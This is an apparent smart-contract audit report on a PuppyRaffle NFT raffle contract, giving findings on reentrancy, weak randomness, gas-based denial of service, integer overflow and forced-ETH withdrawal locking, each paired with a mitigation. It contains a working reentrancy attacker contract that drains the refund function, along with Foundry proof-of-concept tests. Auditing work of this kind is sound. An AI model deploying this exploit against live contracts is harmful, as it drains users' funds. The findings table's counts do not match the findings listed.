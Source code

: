 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./guts.jpeg" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: EggsyOnCode</h3>
    </div>
</div>

</body>
</html>
<!-- Your report starts here! -->

Prepared by: [EggysOnCode](https://github.com/eggsyoncode)
Lead Auditors:

- EggsyOnCode

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The EggsyOnCode team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scope

Auditing of `PuppyRaffle.sol` file in the protocol

## Roles

Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 3                      |
| Low      | 4                      |
| Info     | 2                      |
| Total    | 12                     |

# Findings

### [H-1] Reentrancy Attack Vector Present in `PuppyRaffle::refund` Which Could Drain the Smart Contract

**Description:**  
The `refund` function does not follow the Checks-Effects-Interactions (CEI) pattern, making an external call before updating the contract's state. This opens up the contract to a reentrancy attack, where an attacker can recursively call the function to drain funds from the contract.

**Impact:**  
All the funds in the contract could be drained by an attacker, leading to a complete loss of user funds.

**Proof of Concept:**

```js
contract AttackContract {
    PuppyRaffle puppyRaffle;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }

    fallback() external payable {
        if (address(puppyRaffle).balance > 0) {
            uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(playerIndex);
        }
    }

    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: 1e18}(players);

        uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(playerIndex);
    }
}
```

**Recommended Mitigation:**  
Follow the CEI pattern by updating the contract state before making the external call or use the ReentrancyGuard from OpenZeppelin to prevent reentrancy attacks.

---

### [H-2] Weak RNG in the `PuppyRaffle::selectWinner` Function

**Description:**  
The `selectWinner` function relies on deterministic or miner-influenceable values like `block.difficulty` to generate random numbers. This introduces weak randomness, making the contract vulnerable to manipulation by malicious actors.

**Impact:**  
The randomness used in the raffle can be influenced, leading to unfair outcomes and potential exploitation by attackers, as seen in the MeeBits attack.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Use off-chain distributed RNG via Chainlink VRF or commit-reveal schemes to ensure secure and unpredictable randomness.

---

### [M-1] Looping Over an Unbounded Array in `PuppyRaffle::enterRaffle` Can Cause DoS

**Description:**  
The `enterRaffle` function loops over an unbounded array, which can significantly increase gas costs as the array size grows. This can result in a DoS (Denial of Service) attack by making transactions revert due to exceeding the block gas limit.

**Impact:**  
This issue disproportionately affects later participants in the raffle, as they may face higher gas costs, potentially making the service unusable if the gas cost exceeds the block gas limit.

**Proof of Concept:**

```js
function testIsDoS() public {
    vm.txGasPrice(1);
    address[] memory players = new address[](100);
    for (uint256 i = 0; i < 100; i++) {
        players[i] = address(i);
    }

    uint256 gasUsedBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * 100}(players);
    uint256 gasUsedAfter = gasleft();
    uint256 gasUsed = (gasUsedBefore - gasUsedAfter) * tx.gasprice;

    console.log("Gas used for first 100: ", gasUsed);

    address[] memory players2 = new address[](100);
    for (uint256 i = 0; i < 100; i++) {
        players2[i] = address(i + players.length);
    }

    uint256 gasUsedBefore2 = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * 100}(players2);
    uint256 gasUsedAfter2 = gasleft();
    uint256 gasUsed2 = (gasUsedBefore2 - gasUsedAfter2) * tx.gasprice;

    console.log("Gas used for second 100: ", gasUsed2);

    assert(gasUsed2 > gasUsed);
}
```

**Recommended Mitigation:**  
Loop through a bounded array or maintain a mapping to check for already existing players to avoid high gas costs.

---

### [M-2] Possible Integer Overflow in `PuppyRaffle::selectWinner` Due to `totalFees` Being `uint64`

**Description:**  
The `totalFees` variable in the `selectWinner` function is defined as `uint64`, which has a maximum value of 18.44 ETH. If fees exceed this value, an integer overflow could occur, causing the fees to reset to a smaller number and potentially leading to a significant loss of funds.

**Impact:**  
If the total fees exceed the `uint64` limit, the protocol could lose a substantial amount of ETH, leading to a significant financial impact.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Use `uint256` for `totalFees` and Solidity compiler version `^0.8.0` to avoid overflow and underflow issues.

---

### [M-3] Mishandling of ETH in `PuppyRaffle::withdrawFees` Could Make Withdrawals Impossible

**Description:**  
The `withdrawFees` function contains an assert statement that could fail if the contract receives funds from an attacker via `selfdestruct`, preventing any withdrawals from the contract.

**Impact:**  
This could lock all the funds in the contract, making it impossible to withdraw fees and leading to a complete loss of funds for the contract owner.

**Proof of Concept:**

```js
function testLockingWithdrawals() public {
    for (uint256 i = 0; i < 4; i++) {
        address[] memory players = new address[](1);
        players[0] = address(i);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
    }

    log_uint(address(puppyRaffle).balance);

    vm.warp(block.timestamp + duration + 1);

    puppyRaffle.selectWinner();

    log_uint(puppyRaffle.totalFees());

    vm.deal(TEST, 1 ether);
    vm.startPrank(TEST);
    MishandleETH mishandleETH = new MishandleETH(address(puppyRaffle));
    address(mishandleETH).call{value: 1 ether}("");
    assertEq(address(mishandleETH).balance, 1 ether);
    vm.stopPrank();

    mishandleETH.mishandle();

    vm.expectRevert();
    puppyRaffle.withdrawFees();

    // assertEq(feeAddress.balance, (entranceFee * 4) * 20 / 100);
}
```

**Recommended Mitigation:**  
Use a different measurement for asserting that withdrawals can only be done after the raffle period has ended.

---

### [L-1] No Zero Address Checks in the Constructor in `PuppyRaffle`

**Description:**  
The constructor of the `PuppyRaffle` contract does not check if the zero address is passed as an argument. This could result in an invalid contract state if a zero address is used.

**Impact:**  
Using a zero address could lead to unexpected behavior or the inability to perform certain actions within the contract.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Add a check in the constructor to ensure that the zero address is not passed as an argument.

---

### [L-2] Assert for Length of the Players in `PuppyRaffle::enterRaffle` Should Be Made to Avoid Processing Empty Arrays

**Description:**  
The `enterRaffle` function does not check if the players' array is empty before processing it. This could lead to unnecessary gas consumption and potential errors.

**Impact:**  
Processing an empty array wastes gas and could lead to unexpected behavior in the contract.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Add an assert or require statement to ensure that the players' array is not empty before processing.

---

### [I-1] In `PuppyRaffle::getActivePlayers`, Utilize a Mapping for Better Gas Efficiency

**Description:**  
The `getActivePlayers` function currently uses an array, which could be optimized by using a mapping to reduce gas costs.

**Impact:**  
Using a mapping instead of an array could reduce gas consumption and make the contract more efficient.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Refactor the function to use a mapping for better gas efficiency.

---

### [I-2] `PuppyRaffle::getActivePlayers` Is Not Being Used in the Contract

**Description:**  
The `getActivePlayers` function is defined but not used anywhere in the contract. This could indicate dead code that adds unnecessary complexity to the contract.

**Impact:**  
Unused functions add unnecessary complexity to the contract, making it harder to maintain and increasing the risk of bugs.

**Proof of Concept:**  
N/A

**Recommended Mitigation:**  
Remove the `getActivePlayers` function if it is not needed, or ensure it is used where necessary.

---

### [L-3] Solidity Pragma Should Be Specific, Not Wide

**Description:**  
The contract uses a wide version of Solidity in the pragma statement. It is recommended to use a specific version of Solidity to avoid potential issues with future compiler versions.

**Impact:**  
Using a wide version of Solidity could introduce compatibility issues with future compiler versions.

**Proof of Concept:**

```solidity
pragma solidity ^0.7.6;
```

**Recommended Mitigation:**  
Specify a specific version of Solidity, such as `pragma solidity 0.7.6;

`, to ensure compatibility and avoid unexpected behavior.
